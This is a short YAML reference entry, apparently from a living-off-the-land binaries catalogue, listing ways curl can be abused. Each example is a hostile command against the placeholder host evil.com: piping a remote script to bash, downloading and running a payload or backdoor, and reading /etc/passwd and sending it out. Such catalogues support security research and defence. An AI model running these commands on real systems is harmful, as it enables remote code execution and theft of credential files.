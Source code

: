 ```yaml
---
title: curl
tags: [file-read, file-write, execution]
description: Command line tool for transferring data with URLs, can be used to download/upload files and execute remote scripts.
exec: |
  # Execute remote script
  curl -s https://evil.com/script.sh | bash
  
  # Download and execute
  curl -o /tmp/payload https://evil.com/payload && chmod +x /tmp/payload && /tmp/payload
file-read: |
  # Read local files via file:// protocol
  curl file:///etc/passwd
  
  # Read files and send to remote server
  curl -X POST -d @/etc/passwd https://evil.com/exfil
file-write: |
  # Download file to specific location
  curl https://evil.com/backdoor -o /tmp/backdoor
  
  # Upload file to remote server
  curl -X POST -F "file=@/etc/passwd" https://evil.com/upload
layout: binary
---
```

